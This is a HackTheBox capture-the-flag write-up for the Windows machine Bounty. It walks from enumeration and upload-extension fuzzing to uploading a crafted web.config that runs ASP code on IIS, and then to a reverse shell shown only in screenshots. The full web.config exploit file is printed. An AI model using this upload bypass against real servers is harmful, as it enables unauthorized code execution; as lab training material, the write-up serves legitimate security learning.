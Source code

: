 ```yaml
---
title: HackTheBox_Bounty w/o Metasploit
date: 2024-07-28 01:22:00 -500
categories: [hackthebox,CTF,writeups]
tags: [ctf,hackthebox,writeup,windows,easy]
---
```



## HTB - Bounty

## Enumeration

### Nmap Scan

![Image](/assets/img/bounty/Untitled.png)

### Homepage

![Image](/assets/img/bounty/Untitled_1.png)

### Dirbusting Results

![Image](/assets/img/bounty/Untitled_2.png)

### Transfer.aspx

![Image](/assets/img/bounty/Untitled_3.png)

## Vulnerabilities

### Transfer.aspx Directory

Asp through webconfig [https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

## Exploitation

### Upload Extensions

Let's see what extensions we can upload to the server

First, let's send the upload action to a repeater

![Image](/assets/img/bounty/Untitled_4.png)

### Creating Payload

Now let's create our payload

![Image](/assets/img/bounty/Untitled_5.png)

Let this be our `extensions.txt` file

![Image](/assets/img/bounty/Untitled_6.png)

We send the request to the intruder and then add our payload

![Image](/assets/img/bounty/Untitled_7.png)

### Defining Payload

Here we define the payload

![Image](/assets/img/bounty/Untitled_8.png)

OK, so with this we can tell that the server accepts uploads with these extensions

![Image](/assets/img/bounty/Untitled_9.png)

### Using Config File

[https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

This config file allows us to upload ASP files, which could give us a shell, so let's use this

```xml

`<?xml` `version="1.0"` `encoding="UTF-8"?>`

`<configuration>`

`<system.webServer>`

`<handlers` `accessPolicy="Read, Script, Write">`

`<add` `name="web_config"` `path="*.config"` `verb="*"` `modules="IsapiModule"` `scriptProcessor="%windir%\system32\inetsrv\asp.dll"` `resourceType="Unspecified"` `requireAccess="Write"` `preCondition="bitness64"` `/>`

`</handlers>`

`<security>`

`<requestFiltering>`

`<fileExtensions>`

`<remove` `fileExtension=".config"` `/>`

`</fileExtensions>`

`<hiddenSegments>`

`<remove` `segment="web.config"` `/>`

`</hiddenSegments>`

`</requestFiltering>`

`</security>`

`</system.webServer>`

`</configuration>`

`<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!`

`<%`

`Response.write("-"&"->")`

`' it is running the ASP code if you can see 3 by opening the web.config file!`

`Response.write(1+2)`

`Response.write("<!-"&"-")`

`%>`

- `->`

```

### Uploading Shell

Ignore this empty weewee

Now let's upload this file on the server

![Image](/assets/img/bounty/Untitled_10.png)

![Image](/assets/img/bounty/Untitled_11.png)

It's displaying 3, which means our web.config file is working properly

### Getting a Shell

Now we can go ahead and try getting a shell

![Image](/assets/img/bounty/Untitled_12.png)

Alright, we have made our payload, now time to get it running on the victim's box

### Setting Up

Setting up our Python server and netcat

![Image](/assets/img/bounty/Untitled_13.png)

### Using Certutil

We will now use certutil to get the exe payload

![Image](/assets/img/bounty/Untitled_14.png)

### Uploading and Refreshing

And on uploading, then refreshing the uploadedfiles/webconfig dir

We have our shell

![Image](/assets/img/bounty/Untitled_15.png)

Note: Shell kept bugging out, will update this in the future


